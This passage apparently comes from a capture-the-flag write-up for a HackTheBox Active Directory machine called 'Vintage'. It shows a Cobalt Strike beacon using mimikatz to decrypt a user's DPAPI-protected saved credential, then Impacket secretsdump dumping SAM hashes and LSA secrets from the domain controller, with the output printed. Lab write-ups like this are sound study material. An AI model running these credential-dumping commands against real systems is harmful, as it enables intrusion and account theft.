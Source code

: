 ![alt text](../assets/images/vintage22.png)

now we just need Decyrpt it

```bash
[04/24 20:08:31] beacon> mimikatz dpapi::cred /in:C:\Users\C.Neri\AppData\Roaming\Microsoft\Credentials\C4BB96844A5C9DD45D5B6A9859252BA6 /masterkey:f8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a
```
![alt text](../assets/images/vintage23.png)

## Full-dump

```bash
➜  Vintage secretsdump.py -k -no-pass "VINTAGE.HTB/L.BIANCHI_ADM"@"DC01.vintage.htb"    
Impacket v0.13.0.dev0+20250404.133223.00ced47f - Copyright Fortra, LLC and its affiliated companies 

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xb632ebd8c7df30094b6cea89cdf372be
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e41bb21e027286b2e6fd41de81bce8db:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
```